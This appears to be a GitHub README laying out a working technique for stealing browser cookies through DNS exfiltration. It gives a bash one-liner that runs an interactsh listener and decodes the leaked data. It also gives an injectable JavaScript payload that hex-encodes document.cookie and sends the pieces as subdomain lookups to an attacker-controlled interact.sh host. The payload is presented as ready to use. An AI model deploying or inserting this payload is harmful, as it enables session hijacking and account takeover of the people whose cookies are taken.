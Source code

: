 ## Reciever

The following payload will set up a DNS listener (using interactsh by project discovery) and sequentially handle the output to transform the DNS queries containing fragments of cookies (that will be sent by the attacker payload) into readable ASCII characters.

> Note: The dns queries will obey the following pattern: hexacode.yourdomain

#### bash Command

```
interactsh-client | tee -a saida  | tr -d '[]' | cut -f1 -d ' ' | xargs -I@ bash -c 'echo @ | xxd -r -p'
```

## Payload attacker
The payload below will convert all cookies present on the current page into multiple requests (using fetch function from JS), attempting to call your malicious server, which will be listining for DNS queries. 
The trickest and coolest part here is that, if for some reason, the client-side block the GET request from the client-side to be made, with this payload the browser probably has already started a DNS lookup to check if the host provided is alive to be fetched. Then, we can exploit this behavior to gain some advantages. 

#### JS Command

```
t=40;dm='cb364rdve0qv08pghjmgcmdgr5eyyyyyn.interact.sh';k2="-None";d=document;c=d.cookie;function v(dm, d, c){m="";for(var x in c){k=Math.random().toString(36).substring(7);m=m.concat(c.charCodeAt(x).toString(16).padStart(2,0))};iter=[];p=0;x=0;it=(m.length/t);for(i=[];i.length<=it;){i.push(1);iter.push(m.slice(iter.length*t,i.length*t));};for(var o in iter){danger='https://fma6mqp.1wxyg8.sdrv2.fcnoh2'.replace('fma6mqp',iter[o]).replace('1wxyg8',o).replace('sdrv2',k.concat(k2)).replace('fcnoh2',dm);var xhttp = new XMLHttpRequest();xhttp.open("GET", danger);xhttp.send();};};v(dm,d,c)
```
